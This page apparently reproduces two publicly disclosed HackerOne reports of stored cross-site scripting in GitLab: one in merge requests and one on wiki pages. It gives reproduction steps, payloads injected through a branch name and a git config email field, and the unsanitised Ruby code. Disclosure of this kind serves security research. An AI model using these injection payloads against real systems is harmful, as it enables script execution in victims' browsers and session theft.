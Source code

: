 # Store



* [**GitLab**](https://hackerone.com/gitlab) disclosed a bug submitted by [**yvvdwf**](https://hackerone.com/yvvdwf)  [Stored-XSS in merge requests](https://hackerone.com/reports/977697)13 Jul 2021 

> 1. Create a new project and check option "Initialize repository with a README"
> 2. Create a new branch with name `'> <iframe/srcdoc='<script/src=/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>`
> 3. `Push and merge this request from the new branch to master`
> 4. `bingo!`

## 

* [**GitLab**](https://hackerone.com/gitlab) disclosed a bug submitted by [**yvvdwf**](https://hackerone.com/yvvdwf)  [Stored-XSS on wiki pages](https://hackerone.com/reports/1087061)13 Jul 2021 

> \`author_url\` in  show.html.haml\#L10 not been sanitized._
>
> 1. _Clone wiki reponsitory of an existing project or a new one._
> 2. _Go to inside \`test.wiki\` directory and add the following lines at the end of .git.config file_
> 3. _Moddify/create any wiki page and push it into gitlab server_
> 4. _open the wiki, bingo._
>
> ```text
> Wrap lines Copy Download
> [user]
> 	name = anyname
> 	email = "#' style=animation-name:blinking-dot onanimationstart=alert(document.domain) other"
> ```

the \`wiki_page_versoin.rb\` :

```ruby
    delegate :message, :sha, :id, :author_name, :author_email, :authored_date, to: :commit

      def author_url
        user = ::User.find_by_any_email(author_email)
        user.nil? ? "mailto:#{author_email}" : Gitlab::UrlBuilder.build(user)
      end
```


